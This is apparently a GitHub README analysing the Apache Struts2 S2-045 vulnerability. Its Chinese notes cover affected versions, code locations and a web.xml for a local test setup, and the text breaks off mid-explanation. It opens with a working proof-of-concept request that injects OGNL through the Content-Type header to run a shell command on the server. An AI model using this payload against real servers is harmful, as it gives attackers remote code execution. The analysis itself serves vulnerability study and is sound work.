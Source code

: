 # s2-045



POC:
```java

GET /index.action HTTP/1.1
Host: localhost:8080
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Connection: close

```

## [漏洞回顾] 补充S2-045漏洞细节

---

### 0x01、为什么网上的s2-045漏洞分析文章和本地代码对不上？

原因是由于版本不对：

    2.3.5 ~ 2.3.31 版本，漏洞出现位置：
    org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest类中的buildErrorMessage方法里，97行调用了LocalizedTextUtil.findText
    2.5 ~ 2.5.10 版本，漏洞出现位置：
    org.apache.struts2.interceptor.FileUploadInterceptor类中的intercept方法里，98行调用了LocalizedTextUtil.findText

### 0x02、Struts2框架2.3.x和2.5.x本地搭建需要注意什么？

web.xml 中过滤器有区别：

```xml
<!-- 配置Struts 2.3.x的核心Filter的实现类 -->
<filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
<!-- 配置Struts 2.5.14的核心Filter的实现类 -->
<filter-class>org.apache.struts2.dispatcher.filter.StrutsPrepareAndExecuteFilter</filter-class>
```

附上完整web.xml配置：
 ```xml
<?xml version="1.0" encoding="UTF-8"?>
  
 <web-app id="starter" version="2.4" 
          xmlns="http://java.sun.com/xml/ns/j2ee" 
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
          xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
  
  <display-name>Struts 2 - Maven Archetype - Starter</display-name>
  
     <filter>
         <!--过滤器名 -->
         <filter-name>struts2</filter-name>
         <!-- 配置Struts 2.3.x的核心Filter的实现类 -->
         <!--<filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>-->
         <!-- 配置Struts 2.5.x的核心Filter的实现类 -->
         <filter-class>org.apache.struts2.dispatcher.filter.StrutsPrepareAndExecuteFilter</filter-class>
     </filter>
     <!-- 让Struts 2的核心Filter拦截所有请求 -->
     <filter-mapping>
         <!--过滤器名 -->
         <filter-name>struts2</filter-name>
         <!-- 匹配所有请求 -->
         <url-pattern>/*</url-pattern>
     </filter-mapping>
  
     <!-- Welcome file lists -->
     <welcome-file-list>
         <welcome-file>index.jsp</welcome-file>
         <welcome-file>default.jsp</welcome-file>
         <welcome-file>index.html</welcome-file>
     </welcome-file-list>
  
 </web-app>
```

### 0x03、为什么异常信息会被当做Ognl执行？


看过网上分析文章，大家知道原理是由于引入非法Content-type（FileUploadBase类518行会校验Content-Type），报错信息中包含Ognl表达式，所以被执行。 那么为什么报错信息会被执行？
经过分析，是由于struts2考虑到国际化...emmm